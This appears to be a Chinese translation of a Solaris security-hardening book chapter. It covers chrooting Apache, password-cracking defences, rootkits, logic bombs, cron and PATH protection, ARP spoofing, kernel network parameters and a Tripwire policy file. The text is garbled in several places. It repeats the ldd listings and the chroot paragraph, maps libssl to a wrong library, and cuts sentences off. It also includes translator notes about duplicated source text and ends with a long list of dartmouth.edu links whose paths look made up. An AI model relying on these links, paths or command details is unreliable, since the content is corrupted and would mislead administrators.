libc.so.1 => `/usr/lib/libc.so.1`

libmp.so.2 => `/usr/lib/libmp.so.2`

```
```

htpasswd:

libsocket.so.1 => `/usr/lib/libsocket.so.1`

libssl.so.1 => `/usr/lib/libns1.so.1`

libdl.so.1 => `/usr/lib/libdl.so.1`

libc.so.1 => `/usr/lib/libc.so.1`

libmp.so.2 => `/usr/lib/libmp.so.2`

```
```

httpd:

libsocket.so.1 => `/usr/lib/libsocket.so.1`

libssl.so.1 => `/usr/lib/libns1.so.1`

libdl.so.1 => `/usr/lib/libdl.so.1`


页面也应该安装在 `chrooted` 环境下，以便 `httpd` 进程可以访问。一旦一切准备就绪，可以使用以下命令启动 Web 服务器：

```
# chroot /opt/www /usr/bin/httpd
```

这将在 `chrooted` 环境中启动 Apache Web 服务器，在那里它将更加安全。关于在 `chrooted` 环境中运行 Apache 所需步骤的详细讨论，可以在 Liam Phillips 在 8 月份《SysAdmin》杂志上发表的《Jailed Services》中找到。

## 针对 Web 服务器的缓冲区溢出

针对 Solaris 上 Web 服务器的溢出与针对 Microsoft Information Server 的缓冲区溢出攻击完全不同。针对 Apache 服务器的缓冲区溢出通常针对由 Apache 服务器运行的 CGI 程序。这类缓冲区溢出会导致 Web 服务器在 Web 服务器账户的上下文中执行任意命令。防止 Web 服务器上的缓冲区溢出涉及两个主要步骤：

- 以非特权用户运行 Web 服务器
- 在 `chrooted` 环境中运行 Web 服务器

要以非特权用户运行 Apache，守护进程所需的用户账户必须存在于密码文件中。这可以通过使用现有的非特权账户（如 `nobody`），也可以通过向密码文件添加如 `httpd` 这样的用户账户并锁定该账户来实现。在 Solaris 中，可以使用 `/usr/sbin/useradd` 程序创建账户，然后使用 `passwd` 命令配合 `-l`（lock）选项来锁定账户，如下所示：

```
root@nostromo:
# useradd -u 65535 -g 65534 -d /opt/www -s /bin/false -c
# "Web Server account" -m httpd
6 blocks
root@nostromo:#
```

```
# passwd -l httpd
[root@nostromio:~]
# grep httpd /etc/passwd /etc/shadow
/etc/passwd:httpd:x:65535:65534:Web Server
account:/opt/bin/false
/etc/shadow:httpd:*LK*:11558:::::
```

在 `chrooted` 环境中运行 Apache Web 服务器需要一些精力。首要工作是确定 `httpd` 二进制文件的库依赖项。这些信息可以使用 `ldd` 进行收集。在接下来的示例中，确定了 Apache 服务器各种程序的库依赖项。

```
# ldd ab hdigest htpasswd httpd logresolve rotatels
ab:
```

```
libsocket.so.1 => `/usr/lib/libsocket.so.1`

libssl.so.1 => `/usr/lib/libns1.so.1`

libdl.so.1 => `/usr/lib/libdl.so.1`

libc.so.1 => `/usr/lib/libc.so.1`

libmp.so.2 => `/usr/lib/libmp.so.2`
```

```
htdigest:
libsocket.so.1 => `/usr/lib/libsocket.so.1`

libssl.so.1 => `/usr/lib/libns1.so.1`

libdl.so.1 => `/usr/lib/libdl.so.1`

libc.so.1 => `/usr/lib/libc.so.1`

libmp.so.2 => `/usr/lib/libmp.so.2`
```

```
htpasswd:
libsocket.so.1 => `/usr/lib/libsocket.so.1`

libssl.so.1 => `/usr/lib/libns1.so.1`

libdl.so.1 => `/usr/lib/libdl.so.1`

libc.so.1 => `/usr/lib/libc.so.1`

libmp.so.2 => `/usr/lib/libmp.so.2`
```

```
httpd:
libsocket.so.1 => `/usr/lib/libsocket.so.1`

libssl.so.1 => `/usr/lib/libns1.so.1`

libdl.so.1 => `/usr/lib/libdl.so.1`
```


页面也应该安装在 `chrooted` 环境下，以便 `httpd` 进程可以访问。一旦一切准备就绪，可以使用以下命令启动 Web 服务器：

```
# chroot /opt/www /usr/bin/httpd
```


这将在 `chrooted` 环境中启动 Apache Web 服务器，在那里它将更加安全。关于在 `chrooted` 环境中运行 Apache 所需步骤的详细讨论，可以在 Liam Phillips 在 8 月份《SysAdmin》杂志上发表的《Jailed Services》中找到。

进入类似于 `crypt()` 的例程。然后它获取输出字符串并与 `shadow` 文件中的条目进行比较，这正是系统登录程序所做的那样。像 `John the Ripper` 这样的程序包含一个含有用户密码的字典文件，它们利用该文件对密码进行首次攻击尝试。`John the Ripper` 还包含启发式规则，允许程序利用密码文件中其他字段的信息，以及密码拼写的变体（包括数字元字符的替换）。

## 防御密码破解器

防御密码破解是系统安全领域最老的问题之一。弱密码导致了用户需要选择易于记忆的事物的这一事实。攻击者在首次尝试访问系统时会利用这一事实。

防范暴力破解攻击和密码破解程序成功的第一道防线是设置密码策略。显然，密码不应该是易于猜到的单词，例如用户名。密码至少应包含一个数字、一个元字符和至少一次大小写变化。密码还应该设置最大寿命，但要小心不要将密码寿命设置得太短——寿命越短，用户就越倾向于选择更弱的密码。

有很多测试密码强度的方法，包括挑战-响应系统以及在用户选择时使用程序检查密码。最常见的密码检查程序包括 `anpasword`（阿根国家实验室）、`npasswd` 和 `passwd+`。这些程序对用户密码进行主动检查，并且不接受被认为太弱的密码。此外，`John the Ripper` 还为感知 PAM 的密码更改程序编写了一个密码强度检查程序。最后，定期通过如 `John the Ripper` 或 `Crack` 之类的密码破解程序运行 `system/shadow` 文件至关重要。这是主动识别具有弱密码账户的最佳方法之一。需要注意的是，使用如 `John the Ripper` 等工具可能需要管理层的批准。曾出现系统管理员因未经授权使用此类工具而受到处分甚至被解雇的情况。

防御针对密码暴力破解攻击的另一种方法是使用一次性密码系统。这些系统从 RSA Security 的 SecureID 系统到互联网上的免费软件 `S/Key` 和 `OPIE`（万物一次性密码）程序不等。`OPIE` 程序是 Solaris 的 `login` 和 `in.ftpd` 程序的替换程序。所有一次性密码系统都利用挑战-响应机制，用户登录时会被提供一个特定的挑战，然后计算出正确的响应，最好在离线或其本地机器上完成。一旦特定的挑战被使用，它就会被丢弃且不再重用。

防御用户的弱密码是非常困难的。防御密码破解程序的主要手段是让访问密码哈希变得尽可能困难。在未使用 NIS 或 NIS+ 的情况下，这可能取决于确保 `/etc/shadow` 文件是安全的，并且系统中不存在任何允许攻击者（无论是网络外部还是内部）以 root 身份访问系统的本地或远程漏洞。

然而，如果使用了 NIS，保护密码信息将更加困难。访问 NIS 域内任何系统的外部攻击者都可以获取密码信息。使用 NIS+可以通过限制对密码表条目的访问，使得每个账户只能访问自己的密码，从而在一定程度上缓解这个问题。

## 防御木马攻击

木马攻击的名称源于希腊军队在特洛伊战争期间使用的传奇漏洞。在这些漏洞中，某些看起来是正常的东西，实际上是攻击者用于进一步利用系统或攻击其他系统的工具。

## 防御 Rootkit（根基程序）

`Rootkit` 是系统入侵者使用的软件软件包，用于在他们成功初始入侵后在系统上提供各种功能。典型的 `rootkit` 攻击始于攻击者获取系统的访问，可能是使用被盗的或易猜的密码，或者通过缓冲区溢出登录主机。一旦获得访问权限，攻击者可能会尝试利用 `whodo`、`mailtool`、`mailx` 或 `in.lp` 中的已知漏洞提升其权限级别。获取初始访问和 root 权限后，攻击者就可以上传并安装 `rootkit`。

Solaris 最老的 `rootkit` 简单称为 `Rootkit`。这种特定的工具可以追溯到 1994 年初，最初有两个版本：适用于 Linux 和适用于 SunOS（不是 Solaris，而是 SunOS 4-X 系统）。

1996 年左右，`Rootkit` 被引入 Solaris。`Rootkit` 由 `tcpdump` 等嗅探程序以及各种系统二进制文件的源代码组成，例如 `ps`、`ls`、`ifconfig` 和 `netstat`。具体来说，`Rootkit` 包含：

- 以太网嗅探器
- 带有后门的木马登录替换程序
- `ps`、`netstat`、`ifconfig`、`ls` 和 `du` 等支持程序
- 一个用于安装木马系统二进制文件的实用程序，具有与原始程序相同的日期、UID、GID、权限和校验和

`Rootkit` 的变体可能包含 `in.telnet` 的替换，以及木马化的 `chfn`、`inch`、`notp` 和 `syslogd`。`Rootkit` 组件的设计非常精巧，旨在为攻击者提供对系统的保证访问，以及进一步渗透其他系统的工具。

`login`、`ps`、`netstat` 和 `ifconfig` 文件被写入以读取掩码文件并指定为用户提供哪些（此处原文存在大量重复，已按要求保留格式翻译）。`Rootkit` 的变体可能包含 `in.telnet` 的替换，以及木马化的 `chfn`、`inch`、`notp` 和 `syslogd`。`Rootkit` 组件的设计非常精巧，旨在为攻击者提供对系统的保证访问，以及进一步渗透其他系统的工具。（此处原文存在严重的逻辑重复）。

`Rootkit` 并不代表传统意义上的系统攻击。这些加密包需要攻击者获得某种提升权限以

## 消除逻辑炸弹

逻辑弹被定义为在某些条件触发时对系统造成损害的恶意逻辑。就像真实的爆炸装置一样，逻辑弹在事件发生前一直处于睡眠状态。触发条件可能是特定用户的登录，甚至是特定时间的登录，或者是程序的执行次数或随机数。它也可能是更具体的事件，例如删除用户账户或网络接口状态的变化。逻辑炸弹的范围和复杂度各不相同。损害的范围从删除单个文件到删除整个分区或磁盘。

最简单的逻辑炸弹可能是 `crontab` 中的一个项目。存在其他逻辑炸弹，包括木马二进制文件。控制逻辑炸弹的最佳方法是使用文件完整性软件监控 root 及其他用户系统 `crontab` 文件的更改。这种方法的缺点是任何对 `crontab` 的合法修改都需要重新计算完整性检查器的数据库，但这提供了某种安全保障。

总来说，逻辑炸弹是最难检测的攻击类型。防御逻辑炸弹需要使用如 `Tripwire`、`Fcheck` 或 `Aide` 等文件完整性系统。在新安装的系统中，应向普通用户提供文件完整性软件。这样就可以获取系统的基线快照并离线存储。系统 `crontab` 文件或其他任何文件的任何更改都需要重建数据库，但这提供了某种安全保障。

## 保护 cron 任务

保护 `cron` 任务是安全 Solaris 系统的一个非常重要的部分。`cron` 进程以 root 身份运行，但在执行非 root 用户 `crontab` 中的任何命令之前会执行 `setutid`，以便任何命令以该用户的身份而非 root 身份运行。

`crontabs` 的更改由 `crontab` 程序控制。该程序可以将用户的 `crontab` 加载到编辑器中，当用户完成并退出编辑器时，向 `cron` 守护进程重新读取该特定的 `crontab` 文件以检查任何更改。对 `cron` 设施的访问通过两个文件的存在（或不存在）来控制：`/etc/cron.d/cron.allow` 和 `/etc/cron.d/cron.deny`。要允许非 root 用户使用 `crontab` 命令，用户名必须满足：

- 存在于 `/etc/cron.d/cron.allow`
- 如果 `/etc/cron.d/cron.allow` 文件不存在，用户名必须在 `/etc/cron.d/cron.deny` 中

在以下情况下，用户可能会被拒绝使用 `crontab` 命令：

- `/etc/cron.d/cron.allow` 存在且用户不在该文件中，或
- `/etc/cron.d/cron.allow` 不存在且用户名在 `/etc/cron.d/cron.deny`文件中，或
- 两个文件都不存在

通过使用 `/etc/default/cron` 文件可以控制 `cron` 守护进程的某些方面。该文件可能有三个可能的条目：

- `CRONLOG` 控制 `cron` 守护进程是否保留所有执行操作的日志。
- `PATH` 控制 `cron` 守护进程在非特权用户上下文中运行时搜索可执行文件时使用的路径。
- `SUPATH` 控制 `cron` 守护进程在 root 用户上下文中运行并搜索可执行文件时使用的路径。

通过正确设置 `PATH` 和 `SUPATH` 的值，可以防止 `cron` 在守护进程运行时执行可能被系统命令的木马二进制替换的程序。`PATH` 和 `SUPATH` 的良好值是：

```
PATH=/usr/bin:/usr/sbin:/sbin

SUPATH=/sbin:/usr/sbin:/usr/bin
```


如果 cron 守护进程将使用自定义脚本，最好是创建一个存放脚本的安全目录。一种可能性是创建一个 `/etc/cron.d/custom/secure` 目录，其权限设置为 `rwx-x---`，所有者为 root 用户，组为 'root'。脚本可以存放在该目录中，只有 cron 守护进程在 root 用户上下文中运行时才能访问这些脚本。

提高 cron 守护进程安全性的另一种方法（特别是在运行 cron 任务时）是为执行的任何系统命令指定完全限定路径。这消除了在 `/etc/default/cron` 文件中指定 `PATH` 和 `SUPATH` 变量的性，因为所有系统命令都是完整指定的，包含了该命令所在的目录。

# 防御 PATH 和命令替换

攻击者喜欢的另一种方法是**命令替换**。这种攻击的成功在于攻击者在 `PATH` 环境变量中位于真实程序路径更早的目录里安装一个木马程序（脚本或二进制文件）。该程序可能是一个模拟真实二进制文件操作的脚本，但它会在用户毫无察觉的情况下捕获用户的按键输入——这上是一种*中间人攻击*。

检测这种攻击与检测逻辑炸弹一样困难。然而，如果怀疑系统某个目录中安装了木马二进制文件或脚本，简单的 `which` 命令将通过返回木马二进制文件的完全限定名称（而非真实程序的完全限定名称）立即揭示它。检测这种攻击的另一种方法是使用如 `Tripwire` 之类的文件完整性检查器。`Tripwire` 可以针对目录运行，向目录中添加木马程序或脚本将被检测为该目录计算数据库签名的变化，并导致 `Tripwire` 系统发出警报。检测这种命令替换的另一种简单方法是使用 `Find` 工具。

防御 PATH 和命令替换只需要系统管理员付出极少的精力。可以使用 `/etc/default/login` 文件来指定 root 和非 root 用户的默认路径。`/etc/default/login` 中的环境变量 `PATH` 可用于指定非 root 用户登录后获取的默认路径。同样，变量 `SUPATH` 可以指定在成功登录后为 root 提供的默认路径。最后，通过正确的目录权限（仅允许 root 用户在系统目录中安装新工具和程序），将拒绝任何攻击者利用 PATH 和命令替换利用系统的能力。

（注：原文中后续多个“Defending against PATH and Command Substitution”章节内容完全重复，已根据要求仅翻译并保留了核心逻辑部分。）

# 深度解析破解技巧 • 第10 章

为了将数据发送到另一个系统，发送者必须知道或能够确定接收者的 MAC 地址，以便将数据帧正确发送到局域网（LAN）。这就是地址解析协议（ARP）发挥作用的地方。当一个系统想要向另一个系统发送以太网帧时，它必须以某种方式解析接收者的 MAC 地址。为了实现这一点，发送会在局域网上广播请求，询问目标 IP 地址的机器识别其 MAC 地址。由于请求是广播的，局域网上的所有主机都会接收到数据包。预期的接收者随后发送回复，说明其 IP 地址和 MAC 地址。

ARP 欺骗需要攻击主机构造 ARP 请求和回复。通过发送伪造的 ARP 回复，可以将目标系统的流量从预定目的地重定向到攻击者系统。如果操作得当，目标系统甚至不会察觉重定向的发生。使用 ARP 欺骗，攻击者可以通过向交换机发送伪造的 MAC 地址，在交换式网络上嗅探流量。所有指向目标系统的流量也会发送到攻击者系统。还可以通过 ARP 缓存投毒对系统执行拒绝服务攻击，即将无效的 MAC 地址插入目标系统的 ARP 缓存中。此外，还可以使用中间人攻击劫持两个系统之间的通信会话。

检测伪造的 MAC 地址并不容易，特别是当攻击者仅监听通信会话而不积极参与其中时。确定局域网是否发生 MAC 地址欺骗的唯一方法是使用 Ethernet 等工具完整检查以太网帧。这种检查需要了解通信会话双方的 MAC 地址。另一个此类工具是名为 `arpwatch` 的程序，它在接口上监听 ARP 请求和回复。它利用这些请求和回复建立一个 MAC 地址到 IP 地址的映射表。当 MAC 地址发生变化时，`arpwatch` 会向系统管理员发送电子邮件。另一种防御 MAC 欺骗的方法是如“保护你的 .hosts 文件”节所述，在 ARP 缓存中使用静态 ARP 地址。然而，在任何相当规模的局域网中，由于需要在所有主机上不断维护 ARP 缓存信息，这种方法变得难以管理。


## 总结

了解针对 Solaris 主机的漏洞如何工作有助于系统管理员防御攻击。拒绝服务攻击旨在耗尽系统上的所有资源（如 TCP SYN 洪水攻击），或使系统完全崩溃（如死亡之 Ping）。缓冲区溢出攻击旨在为攻击者提供对系统的访问权限，或者在已通过其他手段获得访问权限的情况下提供提升的权限。暴力破解攻击用于获取账户密码。这些攻击可以利用人们倾向于在多个主机上使用相同密码的特性，将系统的渗透扩展到其他主机。木马攻击涉及将系统（如登录）替换为替换程序，从而为攻击者提供额外的能力。这些能力可能是将用户名和密码记录在文件中以备后之用，也可能是像在登录时提供魔法密码为攻击者提供系统访问权限等重大功能。逻辑炸弹是最难检测的破解手段之一，可能包括在触发前保持休眠几周或几个月的攻击。一旦触发，它们可能会产生灾难性的结果，例如删除操作系统的关键元素或破坏数据库文件。攻击还可以通过将木马二进制文件放在用户搜索路径的早期来实现，使得木马二进制文件代替真实程序执行。最后，是 IP 和 MAC 欺骗，其为了利用旧的、不安全的 r-services 机器之间的信任关系。

在这一章中我们涵盖了大量内容，但如果你想了解更多信息，可以从以下链接开始：

- passwd+ http://ftp.dartmouth.edu/pub/security/passwd+
- passwd http://ftp.dartmouth.edu/pub/security/passwd
- anlpasswd http://ftp.dartmouth.edu/pub/security/alpasswd
- opie http://ftp.dartmouth.edu/pub/security/opie
- npassword http://ftp.dartmouth.edu/pub/security/npassword
- skey http://ftp.dartmouth.edu/pub/security/skey
- arpwatch http://ftp.dartmouth.edu/pub/security/arpwatch
- john http://ftp.dartmouth.edu/pub/security/john
- crack http://ftp.dartmouth.edu/pub/security/crack
- rootkit http://ftp.dartmouth.edu/pub/security/rootkit
- publicfile http://ftp.dartmouth.edu/pub/security/publicfile
- pro http://ftp.dartmouth.edu/pub/security/pro
- chkd http://ftp.dartmouth.edu/pub/security/chkd
- deat http://ftp.dartmouth.edu/pub/security/deat
- utex http://ftp.dartmouth.edu/pub/security/utex
- netcc http://ftp.dartmouth.edu/pub/security/netcc
- inner http://ftp.dartmouth.edu/pub/security/inner
- fast http://ftp.dartmouth.edu/pub/security/fast
- solutions http://ftp.dartmouth.edu/pub/security/solutions
- buffer http://ftp.dartmouth.edu/pub/security/buffer
- overflow http://ftp.dartmouth.edu/pub/security/overflow
- deny http://ftp.dartmouth.edu/pub/security/deny
- service http://ftp.dartmouth.edu/pub/security/service
- flood http://ftp.dartmouth.edu/pub/security/flood
- network http://ftp.dartmouth.edu/pub/security/network
- mail http://ftp.dartmouth.edu/pub/security/mail
- queue http://ftp.dartmouth.edu/pub/security/queue
- auth http://ftp.dartmouth.edu/pub/security/auth
- kernel http://ftp.dartmouth.edu/pub/security/kernel
- parameters http://ftp.dartmouth.edu/pub/security/parameters
- timers http://ftp.dartmouth.edu/pub/security/timers
- brute http://ftp.dartmouth.edu/pub/security/br
- force http://ftp.dartmouth.edu/pub/security/force
- password http://ftp.dartmouth.edu/pub/security/password
- account http://ftp.dartmouth.edu/pub/security/account
- policy http://ftp.dartmouth.edu/pub/security/policy
- expire http://ftp.dartmouth.edu/pub/security/expire
- shadow http://ftp.dartmouth.edu/pub/security/shadow
- trojan http://ftp.dartmouth.edu/pub/security/trojan
- horse http://ftp.dartmouth.edu/pub/security/horse
- dect http://ftp.dartmouth.edu/pub/security/detect
- login http://ftp.dartmouth.edu/pub/security/login
- path http://ftp.dartmouth.edu/pub/security/path
- integrity http://ftp.dartmouth.edu/pub/security/integrity
- check http://ftp.dartmouth.edu/pub/security/check
- ip http://ftp.dartmouth.edu/pub/security/ip
- mac http://ftp.dartmouth.edu/pub/security/mac
- spoof http://ftp.dartmouth.edu/pub/security/spoof
- ssh http://ftp.dartmouth.edu/pub/security/ssh
- r-services http://ftp.dartmouth.edu/pub/security/r-services

- 使用如 `arpwatch` 等工具尝试检测可能的 MAC 伪造攻击尝试。
- 使用 `SSH` 代替 r-services（即 `rsh`、`rlogin`、`rcp` 等）。

## 常见问题解答

以下常见问题由本书作者解答，旨在衡量你对本章所陈述概念的理解程度，并帮助你在现实生活中实现这些概念。如需让作者解答你关于本章的问题，请访问 www.syngress.com/solutions 并点击“Ask the Author（向作者提问）”表单。

**问：John the Ripper 是如何工作的？**

**答：** `John the Ripper` 有三种工作模式。第一种是字典模式。在一种最简单的模式下，`John` 使用一个字典列表，对每个单词进行加密，并将加密哈希值与密码文件进行比较。第二种模式是单破解模式（single-crack mode），使用密码条目登录/GECOS 字段中的信息作为密码。这种模式比字典模式快得多。第三种模式是增量模式（incremental mode）。这是最强大的，它将尝试所有可能的字符组合作为密码。`John the Ripper` 还有一种名为外部模式（external mode）的模式，但并不常用。在外部模式下，`John` 使用用户用 C 语言子集编写的函数来生成它尝试的单词。这些函数由 `John` 在启动时进行编译。

**问：攻击者入侵了我的一个系统，并从日志文件中删除了攻击的证据。我该如何确保此类证据得到保护？**

**答：** 为了确保系统日志在攻击中幸存，你必须在系统上配置 `syslog` 功能并连接到 `syslog` 服务器。`syslog` 服务器可以是任何运行着 `syslog` 守护进程的系统，并设置为接收来自其他系统的远程 `syslog` 消息。`syslog` 服务器应该配置得尽可能安全，因为如果攻击者渗透了一个系统并发现系统消息正在被记录到 `syslog` 服务器，那么该服务器很可能成为攻击者的下一个目标。

# 第 10 章 · 剖析攻击

问：我如何让 TCP 劫持攻击变得更加困难？

答：TCP 劫持攻击的实现是因为 TCP 初始序列号（ISN）的缺陷。当客户端使用 TCP 向服务器建立连接时，它会发送一个初始序列号设置为某个值的 SYN 包。服务器响应一个 SYN-ACK 包，带有它自己的 ISN，以及一个等于客户端 TCP ISN 加 1 的确认号。客户端随后向服务器响应一个 ACK 包，其序列号设置为服务器的 TCP ISN 加 1。一旦完成，连接即被认为已建立。以下是这种三次握手的范例：

```


发送者（客户端）                                     目标（服务器）

`SYN`-----------------------------------------

(Sequence #: X)                                     `SYN-ACK`

        <                              (Sequence #: X+1, Sequence #: Y)

`ACK`-----------------------------------------

(Sequence #: Y+1)

```
问题发生在 TCP ISN 的生成过程中。在早期的 UNIX 时代，此值每建立一个新连接就会增加 64000。今天，许多操作系统利用伪随机数生成器为每个新连接生成一个 TCP ISN 值。Solaris 的 TCP ISN 生成器的强度由 `/etc/inet/init` 文件中 `TCP_STRONG_ISS` 变量的值控制。该值可以被设置为 0、1 或 2。当设置为 0 时，TCP ISN 的生成将使用旧的顺序方法。这完全是可预测的，不应被使用。当 `TCP_STRONG_ISS` 设置为 1（默认值）时，Solaris 使用带有随机增量的改进型序列号生成方法。要让 Solaris 的 TCP ISN 生成器利用强伪随机数生成（即每个 TCP ISN 对于每个连接 ID 都是唯一的），应将 `TCP_STRONG_ISS` 的值设置为 2。

另一种增加 TCP ISN 生成随机性的方法是向内核参数 `tcp_1948_phrase` 回显一组随机信息。该参数是只可写的，并根据 RFC 1948 提供随机数生成的种子。要使用此功能为内核随机数生成器，可以使用命令：

```
# ndd tcp_1948_phrase <一组随机数>
```

问：我如何防止 Solaris 系统参与诸如 SMURF 的拒绝服务攻击？

答：SMURF 攻击涉及向网络广播地址发送伪造的 ICMP Echo 请求包。网络上的所有系统都会接收该 ICMP Echo 请求并向伪造包中的源主机发送 ICMP Echo 回应。为了防止 Solaris 系统参与 SMURF 攻击，内核参数 `ip_respond_to_echo_broadcast` 应设置为 0。执行此操作请使用命令：

```
# ndd set ip_respond_to_echo_broadcast 0
```

问：我如何判断攻击者是否在我的系统上安装了木马二进制文件？

答：Sun 在 SunSolve 网站上提供了一个名为 Solaris 指纹数据库（Solaris Fingerprint Database）的工具。这是一个包含 Solaris 操作系统每个二进制文件（包括补丁文件）MD5 签名的大数据库。如果你怀疑某个程序被木马二进制文件替换，访问 SunSolve 网站（http://sunsolve.sun.com/）下载 MD5 签名程序。Sun 提供两个版本：一个适用于 Solaris SPARC，另一个适用于 Solaris x86。使用可疑文件的名称作为参数运行该程序。输出将是该文件的 MD5 签名。如果签名与数据库匹配，将显示确认信息；否则，数据库将返回失败。

# 检测拒绝服务攻击 • 第 11 章

Tripwire 产品的商业版本涵盖了广泛的功能和服务能力。在本节中，我们将介绍 Tripwire 的开源版本（它可以针对 Solaris 系统进行编译）以及其商业版本。Tripwire 提供了可以保护您的 Web 服务甚至路由器的产品，但在这里我们重点关注于 Tripwire for Servers 产品。

Tripwire for Servers 提供了一个用于安装的图形用户界面 (`GUI`)，并可以通过 Tripwire Manager 进行远程管理。如图 11.1 所示，Tripwire Manager 可以管理多个安装了 Tripwire 代理软件的系统。许多人在 Linux 系统上使用 Tripwire 的开源版本，但您没有理由不从源码自行编译并运行在 Solaris 系统上。Tripwire 的开源版本和商业版本使用相同的策略文件 `twpol`。Tripwire for Servers 2.4.2 版本处理 `/usr/local/tripwire/tf/policy` 目录下的策略文件。

## 图 11.1 Tripwire Manager



默认情况下，Tripwire 在保护 Solaris 系统方面做得非常出色。然而，如果您需要额外的安全防护或想更改默认设置，可以轻松地做到。在接下来的章节中，我们将查看 `twpol` 文件的几个区域。

## Tripwire 全局设置

首先，让我们看看默认 `tw.pol` 文件中的全局设置（图 11.2）。

## 图 11.2 默认 tw.pol 文件中的全局设置

```
############################################################
#                                              ##
############################################################
#                                              ##
#   Solaris 通用使用策略文件                   ##
#               V2.0.2                         ##
#               2001年8月25日                ##
#                                              ##
############################################################
```

```
############################################################
#                                              ##
############################################################# #
```

# 此策略文件被设计为适用于所有已知的
# solaris 发行版。该文件提供了通用的
# 安全性、静默报告和快速执行。然而，
# 它并不用于为每台机器提供高安全解决方案。

# Tripwire 提供了一系列与发行版匹配的
# 策略文件，提供了比此策略文件
# 更高级别的安全性。这些匹配文件位于
# Tripwire for Servers 光光盘的 policies
# 文件夹中。请选择（并修改）适合
# 您应用程序的策略文件。

# Tripwire 还提供了一个在线策略工具
# 旨在帮助用户创建自己的定制
# 策略文件。访问我们的策略工具站点：

## 图 11.2 续

```
# http://policy.tripwire.com
#
# 示例策略文件在启用 Loose DirectoryChecking
#（宽松目录检查）运行时效果最佳。
# 在 Tripwire 配置文件中设置
# LOOSEDDIRECTORYCHECKING=TRUE。
#
############################################################################
############################################################################ ##
############################################################################
 全局变量定义
# 这些变量在安装时由安装
# 脚本定义。如果您直接使用此文件
# 而不是通过安装脚本本身，则可以手动编辑这些内容。
#
# TWROOT = Tripwire for Servers 的根目录
# TWBIN = 安装 Tripwire for Servers
# 二进制文件的文件夹
# TWPOL = 存放 Tripwire for Servers
# 策略文件的文件夹
# TWDB = 存放 Tripwire for Servers
# 数据库的文件夹
# TWSKEY = 存放 Tripwire for Servers 站点
# 密钥的文件夹
# TWLKEY = 存放 Tripwire for Servers
# 本地密钥的文件夹
# TWREPORT = 存放 Tripwire for Servers
# 报告的文件夹
```

## 图 11.2 续


# 逻辑上是 Tripwire for Servers

# 报告的文件夹

```
# 11.2 续
```

# 策略

# 11.2 机器。

```
# HOSTNAME = 机器的主机名
# 此策略文件所在的机器
# LONGHOSTNAME = 机器的长的的的主机名
# (hostname.com)
```

以下部分包含 Tripwire 应用的全局设置。这些设置允许您自定义将数据库、密钥或策略文件移动到其他位置。每个变量的解释已在图 11.2 所示：

```
TWPOL="/usr/local/tripwire/tf/policy"
TWDB="/usr/local/tripwire/tf/db"
TWSKEY="/usr/local/tripwire/tf/key"
TWLKEY="/usr/local/tripwire/tf/locey"
TWREPORT="/usr/local/tripwire/tf/report"
HOSTNAME="yourhostname"
LONGHOSTNAME="yourhostname.com"
```

## Tripwire 邮件设置

接下来，让我们看看告警发送哪里。以下设置决定了每个违规级别的邮件地址：

```
HIGHEST_MAILENTS=root@example.com
HI_MAILENTS=admin@example.com
MED_MAILENTS=admin@example.com
LOW_MAILENTS=root@example.com
```

为了向外部服务器发送 SMTP 消息，您需要在 `twcfg.txt` 文件中添加该变量。该文件位于 `/usr/local/tripwire/tf/bin`。

## 被监控的文件

Tripwire 为其监控的每个目录和文件提供了九种安全描述符。`twpol` 策略文件中描述每个文件将被分配这些变量之一。表 11.1 描述了每个变量。


## 表 11.1 Tripwire 安全变量

| 变量 | 说明 |
| :--- | :--- |
| `SEC_CRIT` | 此变量用于不可的文件或目录。例如，Tripwire 策略文件、`tw.pol` 和 `/etc/profile` 将设置此变量。 |
| `SEC_SUID` | 此变量用于设置了 SUID 或 SGID 标志的二进制文件。 |
| `SEC_BIN` | 此变量用于只读且不会变化的二进制文件。 |
| `SEC_CONFIG` | 此变量用于经常更改但被其他进程读取的配置文件——例如 `/etc/hosts` 文件或 `/etc/passwd` 文件。 |
| `SEC_LOG` | 此变量用于增长但不改变所有权的文件或目录。系统日志文件如 `/var/adm/messages` 就是示例。 |
| `SEC_INVARIANT` | 此变量用于不允许更改权限或所有权的目录。`/export/home` 下的用户目录通常设置此变量。 |
| `SEC_TAB` | 此变量用于可信计算基础（TCB）的成员。 |
| `SEC_PROC` | 此变量用于扫描内核进程。 |
| `SEC_DYN_PROC` | 此变量用于扫描内核进程区域中内容发生变化的进程。 |

`tw.pol` 文件的其余部分包含了被监控的文件和目录的描述。文件和目录根据违规的严重程度进行分组。例如，让我们看看系统配置文件的部分：

```
####################################################
# ##
####################################################
# ##
#       系统配置文件       ##
#                               ##
####################################################
```

```bash
(
ename = "系统文件",
severity = $(SIG_HI),
emailto = $(SIG_HI)
$(SIG_HI_RECIPIENTS)
)
```

```bash
# /etc 可能在使用 automount 时导致违规
# 如果没有使用 automount，请删除额外的安全
/etc -> $(SEC_CRIT);
/etc/service -> $(SEC_CRIT)-i ; # 启动
/etc/syslog -> $(SEC_CRIT)-im ; # 启动启动
/etc/saf_cmnd -> $(SEC_CRIT)-imc ; # 启动
/etc/mnttab -> $(Dynamic);
/etc/profile -> $(SEC_CRIT)
/etc/bashrc -> $(SEC_CRIT); # 依赖 bash
/etc/cpr_config -> $(SEC_CRIT)-m
/.dt -> $(SEC_CRIT)-mc(recurse=1);
/.profile -> $(SEC_CRIT);
/.new -> $(SEC_CRIT);
./Xauthority -> $(SEC_CRIT);
./auto.home -> $(SEC_CRIT);
!/etc/mail/sendmail.pid;
!/etc/nsswitch.conf;
!/etc/security/audit_data;
!/etc/syslog.pid;
!/etc/saf/zmon/pid;
}
```

